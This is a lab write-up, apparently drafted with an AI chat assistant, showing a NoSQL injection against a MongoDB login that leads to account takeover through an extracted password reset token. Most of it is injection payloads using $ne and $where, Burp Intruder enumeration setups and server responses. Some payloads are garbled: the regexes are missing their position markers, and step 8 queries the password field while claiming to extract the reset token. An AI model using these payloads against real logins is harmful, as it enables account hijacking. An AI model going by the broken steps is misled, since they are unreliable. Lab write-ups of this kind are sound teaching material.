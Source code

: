 # 🧪 Field Enumeration to Full Account Takeover with NoSQL Injection

## Exploited a NoSQL injection flaw to enumerate hidden fields and extract a valid password reset token, leading to a seamless account takeover.

Certainly! Here's your complete write-up with your exact point numbering style, plus Intro, Disclaimer, and a friendly Goodbye note:

---

## 📘 Introduction

This lab demonstrates a NoSQL injection vulnerability in a MongoDB-backed login system. By abusing MongoDB operators like `$ne` and `$where`, we can bypass authentication checks, enumerate hidden user fields, and finally extract a password reset token to hijack an account. This step-by-step PoC reveals how NoSQL injections can lead to full account compromise when input validation and query construction are insufficiently secured.

---

## ⚠️ Disclaimer

This material is provided solely for educational purposes on authorized lab environments. Unauthorized testing or exploitation of systems without explicit permission is illegal and unethical. Always practice responsible disclosure and adhere to applicable laws.

---

## 🧩 Step-by-Step PoC

1. Access the Lab, try to sign in with username `carlos` and any random password, intercept the request with Burp Suite.

2. Send the intercepted POST `/login` request to Repeater with body:

   ```json
   {
     "username": "carlos",
     "password": "test"
   }
   ```

   Response:

   ```
   Invalid username or password
   ```

3. Try bypass using the MongoDB not equal operator `$ne`:

   ```json
   {
     "username": "carlos",
     "password": { "$ne": "invalid" }
   }
   ```

   Response:

   ```
   Account locked: please reset your password
   ```

   Although the login is not bypassed, the `$ne` operator is accepted, confirming injection.

4. Add the `$where` parameter as `0` (false):

   ```json
   {
     "username": "carlos",
     "password": { "$ne": "invalid" },
     "$where": "0"
   }
   ```

   Response:

   ```
   Invalid username or password
   ```

5. Change `$where` to `1` (true):

   ```json
   {
     "username": "carlos",
     "password": { "$ne": "invalid" },
     "$where": "1"
   }
   ```

   Response:

   ```
   Account locked: please reset your password
   ```

   This proves the `$where` clause is evaluated and injectable.

6. Enumerate user document fields with Intruder. Use the payload:

   ```json
   {
     "username": "carlos",
     "password": { "$ne": "invalid" },
     "$where": "Object.keys(this)[§§].match('^.{}.*')"
   }
   ```

   Attack setup:

   * Attack type: Cluster Bomb
   * Payload position 1 (§§): Numbers, from 0 to 20
   * Payload position 2 (§§): Brute force characters: `abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789` (min/max length 1)

   Interpretation:

   * Index 0: `_id` (default)
   * Index 1: `username`
   * Index 2: `password`

   By incrementing the index, you discover all user fields, including a password reset token.

7. Capture the `GET /forgot-password` request in Proxy. This endpoint is related to password reset.

8. Use Intruder with payload to extract token value:

   ```json
   {
     "username": "carlos",
     "password": { "$ne": "invalid" },
     "$where": "this.password.match('^.{}.*')"
   }
   ```

   Extracted token (example):

   ```
   zw81ejagwjes6l1wgpn
   ```

9. Use the extracted token as a GET parameter in the forgot-password URL:

   ```
   /forgot-password?resetToken=zw81ejagwjes6l1wgpn
   ```

   You can now reset Carlos’s password and log in, solving the lab.

---

## 👋 Happy Hacking Goodbye Note

Congratulations on mastering this NoSQL injection challenge! Remember, the same techniques that let you exploit vulnerable apps can be used to defend them. Always hack ethically, report responsibly, and keep learning.

Happy hacking and stay curious!
— Aditya Bhatt ☠️🛡️

---

If you'd like, I can help format this for a blog post or create a concise summary for quick reference!
